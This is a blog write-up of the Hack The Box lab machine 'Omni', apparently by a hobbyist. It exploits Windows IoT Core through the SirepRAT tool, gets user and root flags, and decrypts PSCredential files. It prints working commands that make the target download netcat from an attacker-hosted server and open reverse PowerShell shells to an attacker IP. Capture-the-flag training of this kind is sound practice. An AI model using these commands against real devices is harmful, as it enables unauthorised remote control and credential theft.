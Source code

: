 ```yaml
---
layout: post
title: Hackthebox - Omni
date: 2021-01-08 19:00:00 +0000
category: [Hackthebox, Other]
tags: [htb,other,easy,powershell,windows]
---
```


---
Omni is a easy level Windows box in Hackthebox. The reason the OS in this machine is categorized into ```other``` is due the integration of an IOT device. Actually, I had to do some homework in powershell, so it took me some time to get a foothold in this box. And everytime I thought I got the flag it was encrypted with ```PSCredentials```. After a lot of trial and error I decrypted the flags. This is the first box that I've done which integrated IOT device so, I learnt a lot while doing this box. This post will explain how I cleared the ```Omni``` box in Hackthebox. I hope you'll find this useful.
<br>
![cover_image](/assets/img/hackthebox/omni/1.png)

**Author** | egre55  
**Operating System** | Other
**Difficulty** | Easy


Connect to ```Hackthebox``` and let's go.

## <ins>Enumeration</ins>
---
I started enumerating using ```nmap```.
<br>
![nmap_scan](/assets/img/hackthebox/omni/nmap_scan.png)
<br>
The ports ```8080/http``` ```135/smb``` and some other non-standard ports are open.

Visiting the ```http service``` it prompts for credentials. I tried some common credentials but had no luck with it. Then, I searched for ```windows device portal vulnerabilities``` and **hit a jackpot!!**. The first link from the search results clearly explained about the vulnerability and the second link gave away the tool to exploit. Here is the [blog which explains the vulnerability](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/).

This vulnerability impacts the Sirep/WPCon communications protocol included with Windows IoT operating system.
<br>
![vuln_expl](/assets/img/hackthebox/omni/3.png)
<br>
I also checked the tool called ```SirepRAT``` which was made by the author.  Here is the [link to tool](https://github.com/SafeBreach-Labs/SirepRAT)

Clone the repository into your local machine.

I tried running the python script and successfully managed to get the ```System Information```.
<br>
<pre>python SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice</pre>
<br>
![system_information](/assets/img/hackthebox/omni/4.png)
<br>
The ```Netcat``` utility is not pre-installed in ```Windows```. So, I downloaded the netcat-64 utility for windows and transferred it to the remote machine.

Here's how you can do it.

**1)** First download the netcat 64 utility from [github page](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

**2)** Open a ```python http server``` from the directory where netcat is.

**3)** Then run this.
<br>
<pre>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-Webrequest -Outfile C:\\Windows\\System32\\nc64.exe -Uri http://your-vpn-ip:8080/nc64.exe"</pre>
<br>
At first, I tried using ```cURL``` but I didn't get any response. So, I used the ```Invoke-Webrequest cmdlet``` to the download the netcat file.
<br>
![nc_download](/assets/img/hackthebox/omni/5.png)
<br>

## <ins>Reverse shell</ins>
---
I confirmed that the file has been downloaded from the GET request from my python server. Note that the double backslash is used for escaping.

Now, execute the netcat utility with the ```-e powershell.exe``` argument to get the reverse shell. Remember to open a netcat listener in your local machine.
<br>
<pre>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\System32\\nc64.exe 10.10.14.246 4445 -e powershell.exe"</pre>
<br>
![reverse_shell](/assets/img/hackthebox/omni/6.png)
<br>
Bingo!! We got the reverse shell
<br>
![omni_shell](/assets/img/hackthebox/omni/7.png)
<br>

## <ins>Getting the user</ins>
---
After some enumeration I found this interesting file in the ```c:\Program Files\WindowsPowershell\Modules\PackageManagement``` folder. The file is hidden. You can see hidden files using this command...
<br>
<pre>ls -force</pre>
<br>
![bat_file](/assets/img/hackthebox/omni/8.png)
<br>
You can view the contents of the file using this command...
<br>
<pre>type file-name</pre>
<br>
![contents_bat](/assets/img/hackthebox/omni/9.png)
<br>
We got the credentials for both the users ```app``` and ```administrator```. Login to the webpage using the credentials. 

After looking around, I found a way to get a reverse shell. In the dashboard under the ```Processess``` tab, click on the ```Run command```.
<br>
![run_command](/assets/img/hackthebox/omni/10.png)
<br>
We can run the command and get the flag in this page but it was a little uncomfortable for me so I tried running powershell payload but the command didn't get executed.  So, I used the netcat that I uploaded in the remote machine. Remember to open a netcat listener in your local machine.
<br>
<pre>C:\\Windows\\System32\\nc64.exe your-vpn-ip-addr 4446 -e powershell.exe</pre>
<br>
![reverse_shell](/assets/img/hackthebox/omni/11.png)
<br>

## <ins>User flag</ins>
---
I tried running winpeas but most commands didn't get executed and throwed a lot of errors. After looking around for a while, I checked if there were any other ```Volumes``` in the disk. I tried using ```Get-Volume``` but it showed that the ```cmdlet``` didn't exist. So, I used ```gdr``` in short for ```Get-PSDrive``` which I got from ```stackoverflow```.
<br>
<pre>gdr -PSProvider 'FileSystem'</pre>
<br>
![get_volume](/assets/img/hackthebox/omni/12.png)
<br>
There is another volume in the disk named ```U:\```.

I checked the ```U:\Users\app\``` and found the file named ```user.txt```.
<br>
![home_folder](/assets/img/hackthebox/omni/13.png)
<br>
I used ```type``` to get the contents of the file and found that it was encrypted with ```PSCredential```. 
<br>
![PS_creds](/assets/img/hackthebox/omni/14.png)
<br>
Arghh...I almost thought I got the user flag. I searched on how to decrypt the file and finally ended up with ```stackoverflow```.
<br>
<pre>
$credential = Import-CliXml -Path ./user.txt
$credential.GetNetworkCredential().Password
</pre>
<br>
![user_flag](/assets/img/hackthebox/omni/15.png)
<br>

Source:

https://stackoverflow.com/questions/63639876/powershell-password-decrypt

https://techramblers.blog/2020/04/08/decrypt-pscredential-object-password-and-its-applications/


## <ins>Root flag</ins>
---
For the root flag, login to the windows device portal page with the admin credentials. Note that you need to open a incognito tab to login to the page. Use the netcat file from the remote machine to get the reverse shell. Remember to open a netcat listener in your local machine. 

Alternatively, you can also use ```evil-winrm``` to get the flag. I went with the flow and used the same methodology to get the root flag.
<br>
![root_shell](/assets/img/hackthebox/omni/16.png)
<br>
The root flag is in the folder ```U:\Users\Administrator\```.
<br>
![root_folder](/assets/img/hackthebox/omni/17.png)
To get the root flag use this command to decrypt.
<br>
<pre>
$credential = Import-CliXml -Path ./root.txt
$credential.GetNetworkCredential().Password
</pre>
<br>
![root_flag](/assets/img/hackthebox/omni/18.png)


Box rooted!! Until next time...

That's it folks. Happy hacking!!!
